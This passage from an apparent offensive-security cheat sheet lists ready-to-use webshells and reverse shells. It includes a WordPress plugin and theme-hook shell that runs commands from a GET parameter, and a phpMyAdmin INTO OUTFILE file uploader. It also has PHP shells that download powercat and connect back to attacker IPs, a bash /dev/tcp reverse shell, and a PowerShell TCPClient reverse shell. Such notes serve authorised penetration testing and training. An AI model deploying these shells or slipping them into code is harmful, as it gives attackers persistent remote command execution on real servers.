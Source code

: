 ```php title:webshell.php
}

// zip -r malplugin.zip malplugin

// wp-content/plugins/malplugin/webshell.php to execute
?>
```
#### WP theme editor shell / webshell
```php
# inside theme functions.php
function webshell(){
  echo shell_exec($_GET['cmd']);
}
add_action('wp_head','webshell');
```
#### PhpMyAdmin Webshell
```SQL
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';

-- [Reference](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f?ref=benheater.com)
```
#### Php web/rev shells
```php
<?php

if(isset($_REQUEST['cmd'])){
		$local_ip='192.168.45.155';
		$local_port='4455';
        system('IEX (New-Object System.Net.Webclient).DownloadString("http://'.$local_ip.'/psh_scripts/powercat.ps1");powercat -c '.$local_ip.' -p '.$local_port.' -e powershell ');
        die;
}

?>


// very simple one
<?php echo system($_GET["cmd"]); ?>

<?php
//reverse shell
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");  
?>
```
#### Powershell
[Useful Powershell Scripts](https://github.com/darkoperator/powershell_scripts/tree/master)
```powershell
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.237",4455);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

# Encode the reverse shell
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```